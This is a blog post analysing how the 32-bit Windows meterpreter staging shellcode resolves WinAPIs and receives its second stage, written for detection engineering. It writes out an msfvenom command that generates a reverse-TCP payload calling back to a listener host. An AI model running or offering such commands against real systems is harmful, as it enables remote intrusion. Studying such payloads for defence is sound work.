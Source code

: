 ```yaml
---
layout: post
title:  "The Inner Workings of Meterpreter (shellcode)"
date:   2023-09-17 00:00:00 +0000
categories: malware
---
```


This blog entry covers personal technical research on the meterpreter staging payload. Meterpreter, as part of the Metasploit framework developed by Rapid7, is a C2 framework used by white and black hats alike.

To begin analysis, I generated a 32-bit Windows meterpreter shellcode with the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. The objective is to understand how the shellcode loads the necessary DLLs and executes the second stage payload.

Understanding the mechanisms of such shellcodes will prove useful in detection engineering.

<br>
### 1. The "main" Function
To give a high-level overview of the shellcode - there is a `main` function at offset 0x95, and a `load-execute` function at offset 0x06. `load-execute` is called from `main` multiple times.

Parameteres are pushed onto the stack from `main` and are passed into `load-execute` to be passed into WinAPIs.

![ida_main](/assets/post_assets/inner-workings-of-meterpreter/ida_main.png)


<br>
### 2. The "load-execute" Function
In ideal shellcode conditions, `load-execute` will be called 7 times to resolve and execute the following WinAPIs in order.

+ kernel32.LoadLibraryA
+ ws_32.WSAStartup
+ ws_32.WSASocketA
+ ws_32.connect
+ ws_32.recv
+ kernel32.VirtualAlloc
+ ws_32.recv (receives second stage payload)

<br>
I'll describe the library loading process in pseuodocode.

{% highlight python %}
for module in moduleList:
    for export in module.exports:
        if signature.matches(export):
            export()
{% endhighlight %}

<br>
The shellcode obtains the `InMemoryOrderModuleList` structure, which it iterates to find the required WinAPI through the `ExportDirectory` structure. This allows the extraction of WinAPI addresses without calling GetProcAddress.

![ida_load2](/assets/post_assets/inner-workings-of-meterpreter/ida_load2.png)

<br>
In the first `load-execute` call, the shellcode finds the address of `LoadLibraryA` and calls `LoadLibraryA("ws2_32")`, the Winsock dll, to enable networking capabilities. 

![loadlibrary_x32](/assets/post_assets/inner-workings-of-meterpreter/loadlibrary_x32.png)


<br>
### 3. Second Stage Payload
Memory space for the second stage payload is allocated with `VirtualAlloc`. The memory space is then populated with the payload received in the second `ws32.recv` call.

![ida_virtualalloc](/assets/post_assets/inner-workings-of-meterpreter/ida_virtualalloc.png)